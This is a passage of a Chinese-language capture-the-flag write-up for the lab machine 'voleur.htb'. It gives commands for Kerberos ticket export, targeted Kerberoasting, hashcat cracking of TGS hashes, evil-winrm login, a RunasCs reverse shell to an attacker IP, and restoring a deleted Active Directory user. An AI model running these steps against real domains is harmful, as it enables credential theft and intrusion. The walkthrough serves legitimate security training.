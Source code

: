   
把 svc_ldap 的 TGT 票据导出，用 targetedKerberoast.py 自动尝试对所有用户或特定用户进行有针对性的 Kerberoast 攻击，获取哈希值，需要加上-k 参数使用 kerberos 认证  

```
impacket-getTGT 'voleur.htb/svc_ldap:M1......Vn'
export KRB5CCNAME=svc_ldap.ccache
python3 targetedKerberoast.py -v -d 'voleur.htb' -u 'svc_ldap' -k --dc-host dc.voleur.htb
```

  
抓到两个用户的 TGS 哈希  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2ILKy0oho5qib3ibswMNzr1XRIlGda7lK194db2KJiampMzFTtmAyhpwNm3SGqibdgGCTIia5VFkJHY4mw/640?wx_fmt=png&from=appmsg "null")  
  
### 爆破 TGS  
  
保存到文件中，用 hashcat 爆破出了 svc_winrm 的密码  

```
hashcat -m 13100 -a 0 hashs.txt /usr/share/wordlists/rockyou.txt
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2ILKy0oho5qib3ibswMNzr1XRKjr4TNZe10zibxib7qtQUaRK9y16jG4spbau04cKM1Jreb4wl7hR6ibdg/640?wx_fmt=png&from=appmsg "null")  
  
  
svc_winrm 使用 TGT 票据登录成功，在的桌面拿到第一个 flag⛳️  

```
impacket-getTGT 'voleur.htb/svc_winrm:AFi......9afi'
export KRB5CCNAME=svc_winrm.ccache
evil-winrm -i dc.voleur.htb -r voleur.htb
```

  
![](https://mmbiz.qpic.cn/mmbiz_jpg/5HsgFkdwV2ILKy0oho5qib3ibswMNzr1XRtMqtia5YBO7CpAv9FRk45nK0y3WcgJQAfyKw5xYmEbmygib1Micv3yZPA/640?wx_fmt=jpeg&from=appmsg "null")  
  
# 三、权限提升  
### 恢复已删除用户  
  
前面的 Excel 表得知 Todd.Wolfe 用户已经被删除，也可以手动查询被删除的用户再恢复，经测试 svc_winrm 用户没权限操作失败  
  
攻击机设置好监听，用 runas 反弹回一个 svc_ldap 用户的 shell  

```
.\RunasCs.exe svc_ldap M1......n cmd.exe -r 10.10.14.10:4446
```

  
svc_ldap 属于一个叫恢复用户的组  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2ILKy0oho5qib3ibswMNzr1XRrAboOJV4F1MqgkuT68HicsjWYHwZOEBp9tVg0kIdp6eLRicdgNbMkygQ/640?wx_fmt=png&from=appmsg "null")  
  
  
进入 powershell 交互，先查询被删除的对象中有 Todd.Wolfe 用户，再恢复这个用户  

```
powershell
Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects
Restore-ADObject -Identity '1c6b1.......69db'
```
